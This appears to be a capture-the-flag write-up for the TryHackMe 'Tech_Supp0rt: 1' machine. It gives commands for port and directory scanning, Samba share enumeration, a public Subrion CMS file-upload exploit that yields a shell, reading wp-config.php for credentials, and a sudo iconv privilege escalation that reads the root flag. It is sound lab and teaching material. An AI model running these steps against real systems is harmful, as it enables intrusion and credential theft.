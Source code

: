 # Tech_Supp0rt: 1 – Writeup [TryHackMe](https://tryhackme.com/dashboard)

## Scanning

We start with a full port scan:

```python
nmap -sC -sV -p- -T4 10.10.160.173
```
Results:

```python
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu
```
## Web Enumeration

Visiting port 80, we see the default Apache page.

We run a directory brute force:

```python
gobuster dir -u http://10.10.160.173 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt
```
Interesting results:

```python
/phpinfo.php
/test
/wordpress
```
/test → a phishing site, not useful.

/phpinfo.php → just PHP info.

## Samba Enumeration

Next, we enumerate Samba shares:

```python
nmap -p139,445 --script smb-enum-shares,smb-ls 10.10.160.173
```
We discover a share:

```python
10.10.160.173\websvr:
  enter.txt
```
We download it:

```python
smbget smb://10.10.160.173/websvr/enter.txt
```
Inside ```enter.txt```, we find a hint:

```python
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:************* [cooked with magical formula]
Wordpress creds
|->
```
## Subrion CMS

Following the hint, we navigate to:

```python
http://10.10.160.173/subrion/panel/
```
We successfully access the admin panel.

The CMS version is revealed, and after some research we find a public exploit.

```python
searchsploit subrion 4.2.1

Subrion CMS 4.2.1 - Arbitrary File Upload                                         | php/webapps/49876.py

 searchsploit -m php/webapps/49876.py
```
We execute it and gain RCE.

Example usage:

```python
python3 exploit.py -u http://10.10.160.173/subrion/panel/ -l admin -p <password>
```
This provides us with a shell.

## Credential Harvesting

Inside the machine, we check the WordPress configuration:

```python
cat ../../wordpress/wp-config.php
```
We find database credentials, including a password.

Checking ```/home```, we see a user:

```python
scamsite
```
We SSH in with the discovered credentials:

```python
ssh scamsite@10.10.160.173
```
## Privilege Escalation

Checking sudo privileges:

```python
sudo -l
```
Output:

```python
(ALL) NOPASSWD: /usr/bin/iconv
```
On GTFOBins, we find a privilege escalation technique with iconv.

We read the root flag directly:

```python
LFILE=/root/root.txt

sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```

And we successfully capture the root flag
